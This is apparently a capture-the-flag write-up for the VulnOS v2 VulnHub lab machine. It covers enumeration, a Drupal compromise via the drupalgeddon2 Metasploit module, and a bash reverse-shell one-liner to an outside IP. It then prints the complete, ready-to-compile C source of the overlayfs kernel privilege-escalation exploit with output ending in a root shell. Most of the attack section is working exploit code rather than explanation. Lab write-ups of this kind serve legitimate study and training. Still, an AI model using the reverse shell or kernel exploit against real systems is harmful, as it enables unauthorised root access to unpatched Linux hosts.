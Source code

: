 ### Part 1 - Enumeration:

I started with nmap scan:

![NMAP](/static/writeups/VulnHub/VulnOS-V2.md/1.png)

Port 22 and 80 are open, i started of with http, it was hosting this website

![NMAP](/static/writeups/VulnHub/VulnOS-V2.md/2.png)

After clicking on website i got redirected to jabc company website

![NMAP](/static/writeups/VulnHub/VulnOS-V2.md/3.png)

I fired up dirsearch and found many interesting directories in this site

![NMAP](/static/writeups/VulnHub/VulnOS-V2.md/4.png)

from the directories result, i suspected it was using drupal, so i ran whatweb and found out it was using old version of drupal which was vulnerable to many exploits:

![NMAP](/static/writeups/VulnHub/VulnOS-V2.md/5.png)

##### searchsploit result:

![NMAP](/static/writeups/VulnHub/VulnOS-V2.md/6.png)

then, i fired up metasploit and used `exploit/unix/webapp/drupal_drupalgeddon2` module and got a shell

![NMAP](/static/writeups/VulnHub/VulnOS-V2.md/7.png)

i used this bash oneliner to get more interactive shell: `bash -c 'bash -i >& /dev/tcp/192.168.36.21/3669 0>&1'`

then i searched for user with loginshell:

```
www-data@VulnOSv2:/var/www/html/jabc$ cat /etc/passwd | grep sh$
cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
vulnosadmin:x:1000:1000:vulnosadmin,,,:/home/vulnosadmin:/bin/bash
postgres:x:107:116:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
```

### Part 3 - root:

I found out it was using vulnerable Linux kernel

```
uname -a
Linux VulnOSv2 3.13.0-24-generic #47-Ubuntu SMP Fri May 2 23:31:42 UTC 2014 i686 i686 i686 GNU/Linux
```

which was vulnerable to 'overlayfs'-local privilege escalation.

Copy this codeblock in file with '.c' extension, eg: a.c

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sched.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <sys/mount.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sched.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <sys/mount.h>
#include <sys/types.h>
#include <signal.h>
#include <fcntl.h>
#include <string.h>
#include <linux/sched.h>

#define LIB "#include <unistd.h>\n\nuid_t(*_real_getuid) (void);\nchar path[128];\n\nuid_t\ngetuid(void)\n{\n_real_getuid = (uid_t(*)(void)) dlsym((void *) -1, \"getuid\");\nreadlink(\"/proc/self/exe\", (char *) &path, 128);\nif(geteuid() == 0 && !strcmp(path, \"/bin/su\")) {\nunlink(\"/etc/ld.so.preload\");unlink(\"/tmp/ofs-lib.so\");\nsetresuid(0, 0, 0);\nsetresgid(0, 0, 0);\nexecle(\"/bin/sh\", \"sh\", \"-i\", NULL, NULL);\n}\n    return _real_getuid();\n}\n"

static char child_stack[1024*1024];

static int
child_exec(void *stuff)
{
    char *file;
    system("rm -rf /tmp/ns_sploit");
    mkdir("/tmp/ns_sploit", 0777);
    mkdir("/tmp/ns_sploit/work", 0777);
    mkdir("/tmp/ns_sploit/upper",0777);
    mkdir("/tmp/ns_sploit/o",0777);

    fprintf(stderr,"mount #1\n");
    if (mount("overlay", "/tmp/ns_sploit/o", "overlayfs", MS_MGC_VAL, "lowerdir=/proc/sys/kernel,upperdir=/tmp/ns_sploit/upper") != 0) {
// workdir= and "overlay" is needed on newer kernels, also can't use /proc as lower
        if (mount("overlay", "/tmp/ns_sploit/o", "overlay", MS_MGC_VAL, "lowerdir=/sys/kernel/security/apparmor,upperdir=/tmp/ns_sploit/upper,workdir=/tmp/ns_sploit/work") != 0) {
            fprintf(stderr, "no FS_USERNS_MOUNT for overlayfs on this kernel\n");
            exit(-1);
        }
        file = ".access";
        chmod("/tmp/ns_sploit/work/work",0777);
    } else file = "ns_last_pid";

    chdir("/tmp/ns_sploit/o");
    rename(file,"ld.so.preload");

    chdir("/");
    umount("/tmp/ns_sploit/o");
    fprintf(stderr,"mount #2\n");
    if (mount("overlay", "/tmp/ns_sploit/o", "overlayfs", MS_MGC_VAL, "lowerdir=/tmp/ns_sploit/upper,upperdir=/etc") != 0) {
        if (mount("overlay", "/tmp/ns_sploit/o", "overlay", MS_MGC_VAL, "lowerdir=/tmp/ns_sploit/upper,upperdir=/etc,workdir=/tmp/ns_sploit/work") != 0) {
            exit(-1);
        }
        chmod("/tmp/ns_sploit/work/work",0777);
    }

    chmod("/tmp/ns_sploit/o/ld.so.preload",0777);
    umount("/tmp/ns_sploit/o");
}

int
main(int argc, char **argv)
{
    int status, fd, lib;
    pid_t wrapper, init;
    int clone_flags = CLONE_NEWNS | SIGCHLD;

    fprintf(stderr,"spawning threads\n");

    if((wrapper = fork()) == 0) {
        if(unshare(CLONE_NEWUSER) != 0)
            fprintf(stderr, "failed to create new user namespace\n");

        if((init = fork()) == 0) {
            pid_t pid =
                clone(child_exec, child_stack + (1024*1024), clone_flags, NULL);
            if(pid < 0) {
                fprintf(stderr, "failed to create new mount namespace\n");
                exit(-1);
            }

            waitpid(pid, &status, 0);

        }

        waitpid(init, &status, 0);
        return 0;
    }

    usleep(300000);

    wait(NULL);

    fprintf(stderr,"child threads done\n");

    fd = open("/etc/ld.so.preload",O_WRONLY);

    if(fd == -1) {
        fprintf(stderr,"exploit failed\n");
        exit(-1);
    }

    fprintf(stderr,"/etc/ld.so.preload created\n");
    fprintf(stderr,"creating shared library\n");
    lib = open("/tmp/ofs-lib.c",O_CREAT|O_WRONLY,0777);
    write(lib,LIB,strlen(LIB));
    close(lib);
    lib = system("gcc -fPIC -shared -o /tmp/ofs-lib.so /tmp/ofs-lib.c -ldl -w");
    if(lib != 0) {
        fprintf(stderr,"couldn't create dynamic library\n");
        exit(-1);
    }
    write(fd,"/tmp/ofs-lib.so\n",16);
    close(fd);
    system("rm -rf /tmp/ns_sploit /tmp/ofs-lib.c");
    execl("/bin/su","su",NULL);
}

```

then after running these command i got root shell

```
www-data@VulnOSv2:/tmp$ gcc a.c -o ofs
gcc a.c -o ofs
www-data@VulnOSv2:/tmp$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@VulnOSv2:/tmp$ ./ofs
./ofs
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
sh: 0: can't access tty; job control turned off
# whoami
root
```

![NMAP](/static/writeups/VulnHub/VulnOS-V2.md/8.png)

I got root like this.

